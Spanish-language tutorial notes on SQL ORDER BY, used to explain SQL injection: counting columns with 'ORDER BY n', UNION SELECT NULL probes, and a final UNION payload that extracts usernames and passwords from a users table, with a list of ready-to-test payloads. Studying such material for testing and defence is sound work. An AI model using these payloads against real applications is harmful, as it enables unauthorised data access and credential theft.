 # Order by

---

`ORDER BY` sirve para **ordenar** los resultados de una consulta según una o varias columnas.

* `ORDER BY columna` → ordena por el contenido de `columna`. Por defecto `ASC` (ascendente).
* `ORDER BY columna DESC` → ordena de forma descendente.
* También se puede usar por **posición**: `ORDER BY 1` (primera columna del `SELECT`), `ORDER BY 2` (segunda), etc.

---

Tabla `products`:

| id | name       | category | price | released |
| -- | ---------- | -------- | ----- | -------- |
| 1  | Teddy Bear | Gifts    | 20    | 1        |
| 2  | Toy Car    | Toys     | 15    | 1        |
| 3  | Mug        | Gifts    | 8     | 0        |
| 4  | Chocolate  | Gifts    | 5     | 1        |
| 5  | Board Game | Toys     | 30    | 1        |

### Consultas y resultados

* `SELECT id, name, price FROM products ORDER BY price ASC;` → ordena por `price` (columna explícita).

* `SELECT id, name, price FROM products ORDER BY 2;` → ordena por la **segunda columna del SELECT**, es decir `name`.

Resultados (para `ORDER BY 2`):

| id | name       | price |
| -- | ---------- | ----- |
| 5  | Board Game | 30    |
| 4  | Chocolate  | 5     |
| 3  | Mug        | 8     |
| 1  | Teddy Bear | 20    |
| 2  | Toy Car    | 15    |

---

## `ORDER BY n` para contar columnas

* `ORDER BY n` se refiere a la **posición** `n` en la lista de columnas del `SELECT`.
* Si la consulta original tiene, por ejemplo, 3 columnas (`SELECT a, b, c ...`) y probás `ORDER BY 4`, el motor devolverá un **error** porque no existe la columna en la posición 4.
* En una inyección SQL, iterás `ORDER BY 1`, `ORDER BY 2`, `ORDER BY 3`, ... hasta que el `ORDER BY N` produce error. El primer `N` que falla indica que hay `N-1` columnas.

**Importante:** esto cuenta las columnas del `SELECT` que la aplicación construye, no necesariamente todas las columnas que tiene la tabla (salvo que el `SELECT` use `*`, en cuyo caso coinciden).

---

## Ejemplo práctico (SQLi)

Imaginá que la app ejecuta internamente:

```sql
SELECT id, name, price FROM products WHERE id = <INPUT>
```

Si inyectás en `INPUT`:

* `1' ORDER BY 1--` → OK
* `1' ORDER BY 2--` → OK
* `1' ORDER BY 3--` → OK
* `1' ORDER BY 4--` → ERROR (no existe la 4ª columna)

Resultado: la consulta tiene 3 columnas.

**Si la consulta original fuera `SELECT * FROM products ...`**, el `ORDER BY` por posición se refiere a la expansión de `*` (todas las columnas de la tabla), por lo que el conteo te dirá cuántas columnas tiene la tabla en ese contexto.

---

## 5) Payloads listos para probar

* Parámetro **numérico** (sin comillas):

```
1 ORDER BY 1--
1 ORDER BY 2--
1 ORDER BY 3--
1 ORDER BY 4--
```

* Parámetro **string** (necesita cerrar comilla):

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
```

* Alternativa con `UNION SELECT` (cuando no ves errores):

```
' UNION SELECT NULL--            -- prueba 1 columna
' UNION SELECT NULL, NULL--      -- prueba 2 columnas
' UNION SELECT NULL, NULL, NULL-- -- prueba 3 columnas
```

Cuando el `UNION` deje de fallar sabrás el número de columnas.

---

## 6) Advertencias y matices

* Si la aplicación **suprime errores**, `ORDER BY` no mostrará fallo visible. Usa `UNION` o inyección ciega (time/boolean).
* Si la consulta original ya contiene un `ORDER BY`, inyectar otro puede romper la sintaxis.
* Si el input se utiliza en otra parte del SQL (p. ej. dentro de una subquery), `ORDER BY` puede no referirse a la lista de columnas que esperás.
* En algunas bases o APIs la referencia por posición puede comportarse ligeramente distinto; la técnica es ampliamente válida en MySQL, PostgreSQL, MSSQL y Oracle en su forma básica.

---

## Ejemplo final: usar el número de columnas para `UNION` y exfiltrar

Si descubriste que el `SELECT` tiene 3 columnas, podés probar:

```sql
' UNION SELECT NULL, NULL, CONCAT(username,0x3a,password) FROM users--
```

Ajustá la columna que contiene texto para que la app la muestre (por ejemplo, si solo la 2ª columna aparece en la página, pon el payload en la 2ª posición: `NULL, payload, NULL`).

---


